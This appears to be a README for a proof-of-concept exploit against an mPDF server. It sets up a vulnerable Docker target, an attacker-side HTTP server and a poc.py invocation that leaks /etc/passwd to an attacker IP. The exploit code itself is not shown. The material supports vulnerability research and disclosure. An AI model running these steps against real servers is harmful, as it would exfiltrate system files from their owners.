

# How to run

It requires Python to be installed.

1. Run the vulnerable target:

```sh
$ docker build --tag 'test' . && docker run -p 5005:80 'test'
# vulnerable app exposed on port 5005
```

2. Start a simple web server in the local `/tmp/` on the attacker machine (the host):

```sh
$ python3 -m http.server 8085
```

3. Execute the PoC:

```sh
$ python3 poc.py <mpdf server:port> <local ip:port> <file or URL to leak>
# example: python3 poc.py 127.0.0.1:5005 172.26.102.2:8085 /etc/passwd
```

The `<local ip>` has to be the attacker's IP address reachable from inside the container (the host machine in the Docker network).

# Expected output


